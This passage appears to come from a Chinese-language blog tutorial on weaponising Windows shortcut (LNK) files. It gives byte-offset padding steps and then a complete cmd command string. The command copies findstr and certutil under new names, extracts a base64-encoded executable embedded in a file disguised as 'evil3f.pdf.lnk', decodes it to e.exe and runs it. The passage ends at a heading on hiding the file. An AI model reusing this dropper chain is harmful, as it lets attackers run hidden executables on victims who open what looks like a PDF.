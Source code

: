 我们这里将长度更改为 `300`，与其对应的，在 `0x219`处添加 `(300 - 143) * 2 = 314`个字节。

![image-20210905122819516](/assets/img/md/2021-09-13-windows-lnk.assets/image-20210905122819516.png)

将 `/c copy /y evil3f.pdf.lnk %temp%\e3 & copy /y C:\Windows\System32\findstr.exe %temp%\fs.exe & copy /y C:\Windows\System32\certutil.exe %temp%\cu.exe & %temp%\fs.exe "TVqQAAMAAAAEAAA" %temp%\e3 > %temp%\ee3 & %temp%\cu.exe -decode %temp%\ee3 %temp%\e.exe & %temp%\e.exe直接写入即可

![image-20210905123021401](/assets/img/md/2021-09-13-windows-lnk.assets/image-20210905123021401.png)

# 0x04 隐藏自身

